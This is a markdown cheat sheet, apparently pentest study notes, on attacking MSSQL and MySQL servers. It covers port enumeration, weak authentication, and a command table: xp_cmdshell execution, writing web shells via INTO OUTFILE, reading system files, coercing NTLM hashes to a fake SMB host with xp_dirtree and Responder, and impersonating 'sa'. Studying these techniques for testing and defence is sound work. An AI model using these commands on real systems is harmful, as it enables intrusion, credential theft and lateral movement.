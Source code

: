 # SQL Cheat sheet

#### Why Attack Databases?

* **Valuable Data**: Stores user credentials, personal identifiable info (PII), business data, payment details.
* **Power Grab**: Gain access to move laterally across the network or escalate privileges.

***

#### Attack Steps:

1. **Enumeration (Gathering Info):**
   * **Ports**:
     * MSSQL: TCP/1433 (main), UDP/1434 (discovery), TCP/2433 (hidden mode).
     * MySQL: TCP/3306.
   * **Goal**: Identify running services, versions, and hostnames using tools like Nmap.
2. **Authentication:**
   * **MSSQL**:
     * Windows Authentication: Ties to Windows/AD accounts (no extra login if trusted).
     * Mixed Mode: Uses SQL-specific usernames/passwords (e.g., sa:MyPassword!).
   * **MySQL**: Username/password (Windows auth possible with plugin).
   * **Weak Spots**: No passwords, anonymous access, or misconfigured permissions.
3. **Privileges:**
   * **High Privileges Unlock**:
     * Read/modify database contents.
     * Execute system commands.
     * Read/write files on the system.
     * Steal service hashes.
     * Impersonate other users.
     * Access linked databases/networks.
4. **Protocol-Specific Attacks:**
   * **Read/Change Data**: List databases, tables, and extract valuable info (e.g., credentials).
   * **Execute Commands**: MSSQL uses xp\_cmdshell; MySQL relies on file-based workarounds.
   * **Write Files**: Create a Web Shell in a web directory for remote control.
   * **Read Files**: Pull system files (e.g., hosts or /etc/passwd).
   * **Steal Hashes**: MSSQL tricks server to send NTLM hash via fake SMB (e.g., Responder).
   * **Impersonate Users**: MSSQL’s IMPERSONATE lets you act as a stronger user (e.g., sa).
   * **Linked Databases**: MSSQL’s Linked Servers allow lateral movement to other DBs.

***

#### Tools & Commands:

| **Tool/Command**                                              | **What It Does**                                                               |
| ------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| nmap -Pn -sV -sC -p1433 \<IP>                                 | Scans ports, detects MSSQL/MySQL, returns version/hostname (e.g., MSSQL 2017). |
| mysql -u \<user> -p\<pass> -h \<IP>                           | Connects to MySQL, opens a SQL shell for queries.                              |
| sqlcmd -S \<server> -U \<user> -P \<pass>                     | Connects to MSSQL (Windows), runs SQL commands.                                |
| sqsh -S \<IP> -U \<user> -P \<pass> -h                        | Connects to MSSQL (Linux), provides clean SQL interface.                       |
| [mssqlclient.py](http://mssqlclient.py) \<user>@\<IP> -p 1433 | Interactive MSSQL shell (Impacket), prompts for password.                      |
| xp\_cmdshell 'whoami'                                         | MSSQL: Executes OS commands (needs enabling if off).                           |
| SELECT ... INTO OUTFILE                                       | MySQL: Writes files (e.g., Web Shell) if secure\_file\_priv permits.           |
| OPENROWSET(BULK ...)                                          | MSSQL: Reads system files (e.g., C:\Windows\System32\drivers\etc\hosts).       |
| xp\_dirtree '\<fakeSMB>'                                      | MSSQL: Forces server to send hash to fake SMB (pair with Responder).           |
| EXECUTE AS LOGIN = 'sa'                                       | MSSQL: Impersonates another user (e.g., sa) for higher privileges.             |

***

#### Quick Tips:

* **Start Here**: Use Nmap to map out open ports and services.
* **Exploit Weaknesses**: Look for no-password users or open access.
* **Privilege is Key**: More privileges = more attack possibilities.
* **Hash Trick**: Pair MSSQL’s xp\_dirtree with Responder for hash theft.
